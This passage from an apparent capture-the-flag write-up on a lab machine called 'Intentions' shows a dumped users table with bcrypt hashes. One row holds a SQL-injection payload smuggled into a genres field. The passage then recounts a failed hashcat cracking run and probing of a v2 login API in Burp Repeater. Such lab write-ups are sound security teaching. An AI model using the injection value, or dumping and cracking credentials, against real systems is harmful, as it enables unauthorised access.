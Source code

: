 ```
| 25 | beryl68@example.org           | Prof. Margret Von Jr.    | food,travel,nature             | 0       | $2y$10$stXFuM4ct/eKhUfu09JCVOXCTOQLhDQ4CFjlIstypyRUGazqmNpCa | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
| 26 | ellie.moore@example.net       | Florence Crona           | food,travel,nature             | 0       | $2y$10$NDW.r.M5zfl8yDT6rJTcjemJb0YzrJ6gl6tN.iohUugld3EZQZkQy | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
| 27 | littel.blair@example.org      | Tod Casper               | food,travel,nature             | 0       | $2y$10$S5pjACbhVo9SGO4Be8hQY.Rn87sg10BTQErH3tChanxipQOe9l7Ou | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
| 28 | 0xdf@intentions.htb           | 0xdf                     | food')/**/__REFLECTED_VALUE__# | 0       | $2y$10$YUmJGH/nZwMGYmrz.TqDHOtpq1VK4xrw87YtsEJhaobmQ23pY7AbW | 2023-09-14 18:14:31 | 2023-09-14 20:45:38 |
+----+-------------------------------+--------------------------+--------------------------------+---------+--------------------------------------------------------------+---------------------+---------------------+
...[snip]...

```

### Admin Access

#### Crack Failures

I’ll fire up `hashcat` on my system with these hashes, but after five minutes, none have cracked, and progress is moving very slowly as these are Bcrypt hashes. This doesn’t seem the be the way.

#### Enumerate v2 Login

I noted [above](#adminjs) the text in `admin.js` that mentioned the new `v2` login API endpoint that did the hashing client-side so that user passwords aren’t submitted in the clear. I could enumerate the entire `v2` API, but I’ll start with seeing if there’s a `login` function in the same place as `v1`.

I’ll send a login request over to Burp Repeater, and update the URL from `/api/v1/auth/login` to `/api/v2/auth/login` without changing the POST body. When I send this, the response body has a failure:

```

{
    "status":"error",
    "errors":{
        "hash":[
            "The hash field is required."
        ]
    }
}

```

The POST body for that request looks like:

```

{
    "email":"0xdf@intentions.htb",
    "password":"0xdf0xdf"
}

```
